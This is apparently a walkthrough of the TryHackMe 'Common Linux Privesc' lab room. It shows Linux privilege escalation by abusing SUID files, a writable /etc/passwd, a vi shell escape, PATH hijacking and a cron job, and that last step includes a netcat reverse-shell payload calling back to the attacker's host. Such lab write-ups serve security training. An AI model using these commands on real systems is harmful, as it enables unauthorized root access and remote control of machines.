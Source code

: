# Common Linux Privesc

**Room Link:** [https://tryhackme.com/room/commonlinuxprivesc](https://tryhackme.com/room/commonlinuxprivesc)



## Enumeration



Download LinEnum Script

**Kali**

```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

Login to host

**Kali**

```
ssh user3@$VICTIM
Password: password
```

The target's hostname

<figure><img src="../../.gitbook/assets/image (1) (11).png" alt=""><figcaption></figcaption></figure>

There are 8 users

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

4 shells

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (3) (1) (5).png" alt=""><figcaption></figcaption></figure>

Some users can write to passwd file

<figure><img src="../../.gitbook/assets/image (4) (9).png" alt=""><figcaption></figcaption></figure>

## Abusing SUID/GUID Files

**Victim**

```
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Running the shell script in user3 home directory gives us root access right away.

**Victim**

```
/home/user3/shell
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Exploiting Writeable /etc/passwd

**Victim**

```
su user7
Password: password
```

**Victim**

```
openssl passwd -1 -salt new 123
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
cat /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (1) (7).png" alt=""><figcaption></figcaption></figure>

## Escaping Vi Editor

**Victim**

```
su user8
Password: password
```

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo vi
:!sh
whoami
```

<figure><img src="../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>

## Exploiting Crontab

**Victim**

```
ssh user4@$VICTIM
Password: password
```

**Kali**

```
msfvenom -p cmd/unix/reverse_netcat lhost=$KALI lport=8888 R
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 8888
```

**Victim**

```
cat /etc/crontab 
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Add our payload we made in Kali to the script

**Victim**

```
echo 'mkfifo /tmp/cibykaz; nc 10.10.185.2 8888 0</tmp/cibykaz | /bin/sh >/tmp/cibykaz 2>&1; rm /tmp/cibykaz' >> /home/user4/Desktop/autoscript.sh
```

Wait for the script to run and catch the shell on Kali.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

## Exploiting PATH Variable

**Victim**

```
su user5
Password: password
```

The script in user5 home directory is just doing the command ls.

**Victim**

```
cd /home/user5
./script
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

We now create a script called ls that gives us a bash shell.

**Victim**

```
cd /tmp
echo "/bin/bash" > ls
chmod +x ls
```

Before we change the path we can see ls goes to /bin/ls

****![](<../../.gitbook/assets/image (8).png>)****

Now after running the below command ls is now directed to our script.

**Victim**

```
export PATH=/tmp:$PATH
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Now the script in user5s directory acts differently, we now have a root shell.

**Victim**

```
cd /home/user5
/script 
```

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Run the following to reset the path variable.

**Victim**

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH
```
